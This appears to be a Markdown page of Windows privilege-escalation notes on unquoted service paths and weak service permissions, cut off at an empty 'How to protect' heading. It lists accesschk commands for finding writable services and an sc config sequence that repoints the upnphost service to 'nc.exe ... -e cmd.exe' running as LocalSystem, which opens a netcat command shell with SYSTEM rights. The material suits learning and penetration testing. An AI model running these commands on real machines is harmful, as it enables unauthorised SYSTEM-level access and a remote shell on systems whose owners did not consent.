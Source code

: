 If there is are path that contains whitespace and run as *LocalSystem*, Unquoted Service Path vulnerability.
When Windows starts a service, it looks for the PATH where that services is locating. If any unquoted (has space) in the PATH the service can be manipulating.
Here below is an example of a Windows Service that is vulnerable:

![Unquoted Path example](Unquoted_Example.PNG)
NIHardwareService is vulnerable as:

- *C:\Program Files\Common Files\Native Instruments\Hardware\NIHardwareService.exe* contain a whitespace and is not quoted
- The service has an *AUTO_START* start type
- The service is runnig whith high privilege, *LocalSystem*

If there are services that haves the **RP** permission for Authenticated Users **AU** ....

We can also use the Sysinternals tool [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) in order to check which service(s) may be vulnerable.

```bash
accesschk64.exe -uwcqv *
accesschk64.exe -uwcqv "Authenticated Users" *
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -ucqv SERVICE_NAME
accesschk64.exe -c SERVICE_NAME
```

*Common* Options:

- **-u**: Suppress errors
- **-w**: Show only objects that have write access
- **-c**: Searh for Windows Services
- **-q**: Omit Banner
- **-v**: Verbose (includes Windows Vista Integrity Level)

```bash
# Bash
sc qc SERVICE_NAME
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

# PowerShell
Get-Service
Get-Service | Where-Object {$_.Name -eq "SERVICE_NAME"} | Select -Property *
Restart-Service -Name SERVICE_NAME
```

- **binpath=** : Specifies a path to the service binary file.
- **obj=**: Specifies a name of an account in which a service will run, or specifies a name of the Windows driver object in which the driver will run.
- **password=**: Specifies a password. This is required if an account other than the LocalSystem account is used.

:white_check_mark: How to protect against or detect that technique:
